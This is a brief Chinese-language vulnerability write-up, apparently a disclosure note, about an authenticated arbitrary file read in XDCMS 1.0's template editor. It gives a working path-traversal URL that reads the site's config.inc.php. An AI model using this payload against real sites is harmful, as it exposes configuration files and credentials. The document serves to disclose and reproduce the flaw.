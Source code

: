 # XDCMS 1.0 后台任意文件读取

### 一、漏洞简介

### 二、漏洞影响

XDCMS 1.0

### 三、复现过程

漏洞文件漏洞文件：system\modules\xdcms\template.php，同上述xss漏洞相同

![](images/15896413021284.jpg)


第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤


```
http://url/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php
```

后台任意文件读取。

![](images/15896413282150.jpg)
